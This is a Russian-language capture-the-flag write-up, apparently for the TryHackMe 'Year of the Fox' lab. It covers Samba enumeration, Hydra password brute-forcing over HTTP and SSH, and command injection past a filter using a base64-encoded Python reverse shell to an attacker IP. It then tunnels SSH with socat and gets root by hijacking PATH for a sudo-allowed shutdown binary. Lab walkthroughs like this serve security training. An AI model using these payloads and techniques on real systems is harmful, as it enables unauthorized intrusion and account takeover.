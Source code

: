 # Year of the Fox

:white_check_mark:  [**Enum4linux**](#enum4linux)

:white_check_mark: [**Hydra get request**](#hydra)

:white_check_mark: [**Command Injection(filtering)**](#command_njection_filtering)

:white_check_mark: [**Socat tunneling**](#socat_tunneling)

:white_check_mark: [**Shutdown(privesc)**](#shutdown)

:white_check_mark: [**PATH exporting**](#PATH)

___

## Enumeration
Сканируем ip командой:
```
nmap -sV -sV fox.thm
```

```
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX
```

При переходе на сайт, нас встречает панель авторизации. Попробуем найти данные.

<a name="enum4linux"></a>

## Samba
Используем enum4linux для перечисления самбы
```
enum4linux fox.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/1.png)

Получаем имена двух пользователей: fox, rascal.

## Hydra

Сбрутим пароль для пользователя rascal:
```
hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f fox.thm http-get -t 64
```

```
[80][http-get] host: fox.thm   login: rascal   password: <REDACTED>
```

<a name="command_njection_filtering"></a>

## Command Injection(filtering)

Проходим авторизацию и попадаем на страницу.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/3.png)

Мы имеем строку поиска файлов, найдем уязвимость. Запускаем Burp Suite и перехватываем запрос. В запросе фильруются специальные символы, кроме " **\\** ".

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/5.png)

Наш экплоит будет выглядеть так:
```
"\";command;\""
```

Команда обратной оболочки:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.61.235",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Заодируем команду в base64 и модифицируем эксплоит:
```
"\";echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuOC42MS4yMzUiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc= | base64 -d | bash;\""
```

Получаем shell. Закидываем linpeas. Видим, что открыт локальный порт 22.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/6.png)

Закинем бинарник nmap и просканируем локальную сеть.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/7.png)

Это порт ssh.

Просмотрим конфиг sshd_config

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/8.png)

Пользователь fox имеет доступ к ssh.

<a name="socat_tunneling"></a>

## Socat tunneling
Закинем бинарник socat, чтобы перенаправить 22 порт на порт 5555:

```
./socat tcp-l:5555,fork,reuseaddr tcp:localhost:22
```

<a name="hydra"></a>

Теперь мы можем сбрутить пароль от ssh юзера fox:
```
hydra -l fox -P /usr/share/wordlists/rockyou.txt -s 5555 fox.thm ssh
```

```
[5555][ssh] host: fox.thm   login: fox   password: <REDACTED>
```

Подключаемся по ssh
```
ssh -p 5555 fox@fox.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/9.png)

<a name="shutdown"></a>

## Priviledge Escalation

Просмотрим права командой: **sudo -l**.
```
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

Отправим файл shutdown и просмотрим с помощью strings.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/10.png)

Двоичный файл вызывает другой файл под названием **poweroff**.

Посмотрев на выводы команды sudo -l на своей машине и атакуемой, можно заметить отличия.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/11.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/12.png)

<a name="PATH"></a>

Эта машина не использует secure_path в конфигурации sudoers.

Обычно, когда мы вызываем команду sudo, она игнорирует стандартный PATH и вместо него использует безопасный PATH, определенный в /etc/sudoers. Это делает очень сложным выполнение эксплойтов для манипуляции PATH. Но на этой машине нет secure_path, а значит, мы должны иметь возможность использовать PATH для получения root.
```
cp /bin/bash /tmp/poweroff

chmod +x /tmp/poweroff

export PATH=/tmp:$PATH

sudo /usr/sbin/shutdown
```

Получаем root

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/13.png)

Флаг находится не здесь, найдем его командой:
```
find /home -group root -type f 2>/dev/null
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/14.png)

